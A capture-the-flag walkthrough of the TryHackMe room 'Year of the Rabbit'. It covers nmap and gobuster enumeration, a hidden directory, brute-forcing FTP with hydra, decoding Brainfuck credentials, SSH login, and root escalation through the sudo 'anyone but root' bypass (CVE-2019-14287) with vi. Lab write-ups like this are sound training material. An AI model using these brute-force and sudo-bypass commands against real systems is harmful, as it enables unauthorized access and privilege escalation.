


# [Year of the Rabbit](https://tryhackme.com/room/yearoftherabbit)

First, `nmap`

```
# Nmap 7.91 scan initiated Sun Jul 11 06:54:33 2021 as: nmap -vvv -p 21,22,80 -sCV -oA init 10.10.17.127
Nmap scan report for box.ip (10.10.17.127)
Host is up, received syn-ack (0.26s latency).
Scanned at 2021-07-11 06:54:33 UTC for 18s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.2
22/tcp open  ssh     syn-ack OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAILCKdtvyy1FqH1gBS+POXpHMlDynp+m6Ewj2yoK2PJKJeQeO2yRty1/qcf0eAHJGRngc9+bRPYe4M518+7yBVdO2p8UbIItiGzQHEXJu0tGdhIxmpbTdCT6V8HqIDjzrq2OB/PmsjoApVHv9N5q1Mb2i9J9wcnzlorK03gJ9vpxAAAAFQDVV1vsKCWHW/gHLSdO40jzZKVoyQAAAIA9EgFqJeRxwuCjzhyeASUEe+Wz9PwQ4lJI6g1z/1XNnCKQ9O6SkL54oTkB30RbFXBT54s3a11e5ahKxtDp6u9yHfItFOYhBt424m14ks/MXkDYOR7y07FbBYP5WJWk0UiKdskRej9P79bUGrXIcHQj3c3HnwDfKDnflN56Fk9rIwAAAIBlt2RBJWg3ZUqbRSsdaW61ArR4YU7FVLDgU0pHAIF6eq2R6CCRDjtbHE4X5eW+jhi6XMLbRjik9XOK78r2qyQwvHADW1hSWF6FgfF2PF5JKnvPG3qF2aZ2iOj9BVmsS5MnwdSNBytRydx9QJiyaI4+HyOkwomj0SINqR9CxYLfRA==
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZyTWF65dczfLiKN0cNpHhm/nZ7FWafVaCf+Oxu7+9VM4GBO/8eWI5CedcIDkhU3Li/XBDUSELLXSRJOtQj5WdBOrFVBWWA3b3ICQqk0N1cmldVJRLoP1shBm/U5Xgs5QFx/0nvtXSGFwBGpfVKsiI/YBGrDkgJNAYdgWOzcQqol/nnam8EpPx0nZ6+c2ckqRCizDuqHXkNN/HVjpH0GhiscE6S6ULvq2bbf7ULjvWbrSAMEo6ENsy3RMEcQX+Ixxr0TQjKdjW+QdLay0sR7oIiATh5AL5vBGHTk2uR8ypsz1y7cTyXG2BjIVpNWeTzcip7a2/HYNNSJ1Y5QmAXoKd
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHKavguvzBa889jvV30DH4fhXzMcLv6VdHFx3FVcAE0MqHRcLIyZcLcg6Rf0TNOhMQuu7Cut4Bf6SQseNVNJKK8=
|   256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFBJPbfvzsYSbGxT7dwo158eVWRlfvXCxeOB4ypi9Hgh
80/tcp open  http    syn-ack Apache httpd 2.4.10 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 11 06:54:51 2021 -- 1 IP address (1 host up) scanned in 18.25 seconds
```

Ports 22 and 80 are of main interest here. However, we can't use anonymous login for FTP so we'll just look at port 80 for now.

`gobuster` returns the following

```
/assets               (Status: 301) [Size: 301] [--> http://box.ip/assets/]
/server-status        (Status: 403) [Size: 271]
```

Here, `/assets` seems interesting so let's check it out.


Here we have a rick-roll video and an interesting `style.css`



We see in `style.css` a hint to check the page at `/sup3r_s3cr3t_fl4g.php` which we will.



The page here tells us to turn off javascript. Clicking "OK" just redirects us to the rick-roll video on YouTube. You can disable javascript by your preferred method here. If you disable javascript and check the page's source, you'll see that it's just showing us the video `/assets/RickRolled.mp4` and telling us the hint is in said video, so we'll watch it. Around 55 seconds in, we get an audio saying "I'll put you out of your misery, *burp* you're looking in the wrong place". So... I guess that was just a rabbit hole. Considering the name of the room and its message, there's probably gonna be more of them...

At this point, I went back to the page `/sup3r_s3cr3t_fl4g.php`. I turned on Burp Suite (maybe the burp in the audio was a hint to this?) and intercept the traffic around this page.


Here we can see in the middle of requests to `/sup3r_s3cr3t_fl4g.php` is a request to `/intermediary.php` with the parameter `hidden_directory=/WExYY2Cv-qU`, so let's go to that hidden directory.


In this directory, we have an image file so let's download it.

If we run `strings` on the file, we'll see at the end of the output the message:

> Eh, you've earned this. Username for FTP is ftpuser
> One of these is the password:

... followed by a bunch of strings. The output basically gave us the username  "ftpuser" and a list of passwords to try on FTP, so let's copy those possible passwords and run `hydra` on port 21.

```sh
hydra -l ftpuser -P pass ftp://box.ip
# replace box.ip with your target IP
```

With this, we should get a password to log into FTP. In FTP, we see the file "Eli's_Creds.txt" so we'll `get` it.

```ftp
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jan 23  2020 .
drwxr-xr-x    2 0        0            4096 Jan 23  2020 ..
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.

ftp> get Eli's_Creds.txt
```

If we `cat` the file, we'll get what looks like a bunch of gibberish. You may recognize it as Brainfuck, which we can run with something like [`tio.run`](https://tio.run/#brainfuck). Running the code gives us the user "eli" and a password. We can then use this to log into SSH.

```sh
$ ssh eli@box.ip
eli@box.ip's password:


1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE


eli@year-of-the-rabbit:~$
```

We see that "root" has left a message to the user "Gwendoline". Following the message, we can look for a "s3cr3t" file/directory.

```sh
eli@year-of-the-rabbit:~$ find / -name s3cr3t 2>/dev/null
/usr/games/s3cr3t
```

Checking `/usr/games/s3cr3t`, we find Gwendoline's password

```sh
eli@year-of-the-rabbit:~$ file /usr/games/s3cr3t
/usr/games/s3cr3t: directory
eli@year-of-the-rabbit:~$ cd /usr/games/s3cr3t
eli@year-of-the-rabbit:/usr/games/s3cr3t$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Jan 23  2020 .
drwxr-xr-x 3 root root 4096 Jan 23  2020 ..
-rw-r--r-- 1 root root  138 Jan 23  2020 .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
eli@year-of-the-rabbit:/usr/games/s3cr3t$ file .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!: ASCII text
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
Your password is awful, Gwendoline.
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

We can check `/home` for the username and `su` into their account

```sh
eli@year-of-the-rabbit:/usr/games/s3cr3t$ ls /home
eli  gwendoline
eli@year-of-the-rabbit:/usr/games/s3cr3t$ su gwendoline
Password:
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$
```

Running `sudo -l` shows that we can run `vi` on `user.txt` as *anyone but root*. You may know about CVE-2019-14287 (there's a THM room about it) where we can exp;oit the "anyone but root" part of `sudo`. With this, we can run `vi` as root.

```sh
gwendoline@year-of-the-rabbit:~$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

Within `vi` (as well as vim and neovim), we can get a shell by running `:!bash`. And with that, we have a root shell.
